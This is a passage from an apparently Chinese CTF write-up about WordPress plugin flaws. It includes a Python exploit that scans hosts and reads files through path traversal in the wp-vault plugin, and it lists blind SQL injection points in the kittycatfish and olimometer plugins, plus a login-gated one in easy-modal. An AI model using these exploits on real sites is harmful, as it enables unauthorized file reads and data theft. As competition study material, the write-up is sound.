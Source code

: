 ```
        `}`
        else if (file_exists(dirname(__FILE__) . "/css/" . $_GET["wpv-css"] . ".css.php")) `{`
            header("Content-type: text/css");
            include(dirname(__FILE__) . "/css/" . $_GET["wpv-css"] . ".css.php");
            exit;
        `}`
    `}`
```

文件包含利用exp[代码]

```
import requests
part_url='/wp-content/plugins/wp-vault/trunk/wp-vault.php?wpv-image=../../../../../opt/xnuca/flag.txt'
for i in range(1,22):
    try:
        ip1='192.121.'+str(i)+'.31'
        ip='http://192.121.'+str(i)+'.31'
        full_url=ip+part_url
        res=requests.get(url=full_url,timeout=2)
        # print res.status_code
        if res.status_code!=404:
            print ip1
            print res.text
    except Exception,e:
        pass
```

#### <a class="reference-link" name="3.kittycatfish%202.2%E6%8F%92%E4%BB%B6%20%E5%AD%98%E5%9C%A8sql%E6%B3%A8%E5%85%A5"></a>3.kittycatfish 2.2插件 存在sql注入

注入点1 ：/wp-content/plugins/kittycatfish/base.css.php?kc_ad=31&amp;ver=2.0<br>
注入点2：wp-content/plugins/kittycatfish/kittycatfish.php?kc_ad=37&amp;ver=2.0<br>
都是kc_ad参数，可以使用盲注直接load_file读取flag文件

#### <a class="reference-link" name="4.%20olimometer%E6%8F%92%E4%BB%B6%E5%AD%98%E5%9C%A8sql%E6%B3%A8%E5%85%A5"></a>4. olimometer插件存在sql注入

注入点：/wp-content/plugins/olimometer/thermometer.php?olimometer_id=1 olimometer_id参数可以盲注直接load_file读取flag文件

#### <a class="reference-link" name="5.%20easy-modal%E6%8F%92%E4%BB%B6%E5%AD%98%E5%9C%A8sql%E6%B3%A8%E5%85%A5"></a>5. easy-modal插件存在sql注入

同样存在sql盲注，但是首先得登录进后台才能利用

### <a class="reference-link" name="score4%E6%98%AF%E4%B8%80%E4%B8%AAjoomla3.x%E7%BD%91%E7%AB%99"></a>score4是一个joomla3.x网站
